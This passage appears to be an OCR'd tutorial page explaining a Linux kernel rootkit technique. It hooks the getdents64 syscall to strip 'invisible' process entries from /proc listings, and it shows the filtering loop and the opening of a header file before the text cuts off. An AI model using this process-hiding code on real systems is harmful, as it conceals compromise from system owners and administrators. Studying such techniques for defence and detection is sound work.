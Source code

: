                    That means, if `i_ino` of any inode is same as `PROC_ROOT_INO`, its name will be `/proc`.

                   The final part of the getdents64 syscall:
                   ```c
                   // Changes which we will do
                   while (offset < ret)
                   {
                      dir = (void *)kdirent + offset;

                      if ((proc && is_invisible(simple_strtoul(dir->d_name, NULL, 10))))
                      {
                        if (dir == kdirent)
                        {
                            ret -= dir->d_reclen;
                            memmove(dir, (void *)dir + dir->d_reclen, ret);
                            continue;
                        }
                         prev->d_reclen += dir->d_reclen;
                       }
                       else
                       {
                          prev = dir;
                       }
                       offset += dir->d_reclen;
                   }
                   ```
                   The while loop goes through the _array of dirent_ returned by getdents64 (or, in this context orig_getdents64).
                   It checks whether:
                   1. The directory entry within the _array of dirent_ is in `/proc/` directory
                   2. It is invisible

                   It then performs the changes to the `kdirent` then eventually to `dirent`, so that it can be passed to user space.

                   Whole Code (Test_hook_getdents64.h):
                   ```c
                    #include <linux/syscalls.h>     /* Needed to use syscall functions */
                    #include <linux/slab.h>         /* kmalloc(), kfree(), kzalloc() */
                    #include <linux/sched.h>        /* task_struct: Core info about all the tasks */
                    #include <linux/fdtable.h>      /* Open file table structure: files_struct structure */
                    #include <linux/proc_ns.h>	/* For `PROC_ROOT_INO` */

                    #include <asm/ptrace.h>		/* For intercepting syscall, struct named pt_regs is needed */


                    // =============================================================================

                    #include <linux/dirent.h>	/* struct dirent refers to directory entry. */

                    struct linux_dirent {
                            unsigned long   d_ino;		/* inode number */
                            unsigned long   d_off;		/* offset to the next dirent */
                            unsigned short  d_reclen;	/* length of this record */
                            char            d_name[1];	/* filename */
                    };
